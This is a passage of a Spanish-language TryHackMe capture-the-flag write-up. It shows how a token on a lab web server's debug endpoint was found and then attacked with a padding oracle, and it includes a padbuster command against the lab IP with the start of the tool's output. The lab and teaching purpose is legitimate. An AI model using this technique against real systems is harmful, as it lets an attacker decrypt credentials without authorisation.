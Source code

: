 Seguimos con el reconocimiento, encontramos en el código fuente del fichero *debug.html* una función que muestra el tipo de algoritmo de cifrado, un endpoint interno y un token que se envía por método GET.
![](../assets/img/new_york_flankees-tryhackme-writeup/3.png)

Probamos a cambiar *localhost* por la dirección IP de la máquina, vemos que nos devuelve un "*Custom authentication success*" si es correcto el token, y en caso contrario, nos devolverá un error diferente, esto nos permitirá explotar el [*Padding Oracle*](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/09-Testing_for_Weak_Cryptography/02-Testing_for_Padding_Oracle). 
Este token, debería de contiene las credenciales de acceso en este formato *"user:password"*:
![](../assets/img/new_york_flankees-tryhackme-writeup/4.png)


## Explotación
Con estos datos, ya tenemos todo lo suficiente para poder realizar un *Padding Oracle Attack*, yo utilicé la herramienta **padbuster**:

```
> padbuster http://10.10.155.195:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4 39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4 16 -encoding 2

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 29

INFO: Starting PadBuster Decrypt Mode
```